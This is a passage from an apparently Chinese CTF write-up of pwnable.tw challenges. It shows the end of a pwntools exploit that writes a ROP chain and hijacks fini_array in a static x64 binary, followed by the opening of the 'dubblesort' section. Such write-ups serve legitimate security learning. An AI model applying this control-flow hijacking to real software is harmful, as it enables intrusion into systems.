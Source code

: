 ```python
write_data(rsp+32, p64(rsi_addr)+p64(0))
write_data(rsp+48, p64(rdx_addr)+p64(0))
write_data(rsp+64, p64(syscall_addr))

write_data(fini_array, p64(leaveret_addr))

io.interactive()
```

![image-20220413111154973](pwnabletw.assets/image-20220413111154973.png)

知识点：x64静态编译程序的fini_array劫持

> 参考：
>
> [https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)](https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)

# 0x05 dubblesort

![image-20220413152507489](pwnabletw.assets/image-20220413152507489.png)

保护全开

![image-20220414101746848](pwnabletw.assets/image-20220414101746848.png)

